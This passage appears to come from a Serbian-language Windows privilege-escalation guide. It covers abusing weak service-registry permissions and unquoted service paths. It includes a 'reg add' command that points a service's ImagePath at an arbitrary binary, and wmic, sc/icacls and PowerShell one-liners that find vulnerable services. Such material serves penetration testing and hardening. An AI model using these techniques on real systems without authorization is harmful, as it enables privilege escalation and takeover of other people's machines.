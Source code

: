 Potrebno je proveriti da li **Authenticated Users** ili **NT AUTHORITY\INTERACTIVE** poseduju dozvole `FullControl`. Ukoliko je to slučaj, binarni fajl koji izvršava servis može biti promenjen.

Za promenu putanje izvršenja binarnog fajla:

```bash
reg add HKLM\SYSTEM\CurrentControlSet\services\<service_name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\new\binary /f
```

### Dozvole za dodavanje podataka/dodavanje poddirektorijuma u registru usluga

Ako imate ovu dozvolu nad registrom, to znači da **možete kreirati poddirektorijume iz ovog**. U slučaju Windows usluga, ovo je **dovoljno za izvršavanje proizvoljnog koda:**

{% content-ref url="appenddata-addsubdirectory-permission-over-service-registry.md" %}
[appenddata-addsubdirectory-permission-over-service-registry.md](appenddata-addsubdirectory-permission-over-service-registry.md)
{% endcontent-ref %}

### Putanje usluga bez navođenja u navodnicima

Ako putanja do izvršne datoteke nije unutar navodnika, Windows će pokušati izvršiti svaki završetak pre razmaka.

Na primer, za putanju _C:\Program Files\Some Folder\Service.exe_ Windows će pokušati izvršiti:

```powershell
C:\Program.exe
C:\Program Files\Some.exe
C:\Program Files\Some Folder\Service.exe
```

### Lista svih neoznačenih putanja servisa, isključujući one koje pripadaju ugrađenim Windows servisima:

```bash
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" | findstr /i /v "C:\Windows\\" |findstr /i /v """
wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\\Windows\\system32\\" |findstr /i /v """ #Not only auto services

#Other way
for /f "tokens=2" %%n in ('sc query state^= all^| findstr SERVICE_NAME') do (
for /f "delims=: tokens=1*" %%r in ('sc qc "%%~n" ^| findstr BINARY_PATH_NAME ^| findstr /i /v /l /c:"c:\windows\system32" ^| findstr /v /c:""""') do (
echo %%~s | findstr /r /c:"[a-Z][ ][a-Z]" >nul 2>&1 && (echo %%n && echo %%~s && icacls %%s | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users todos %username%") && echo.
)
)
```

```bash
gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```
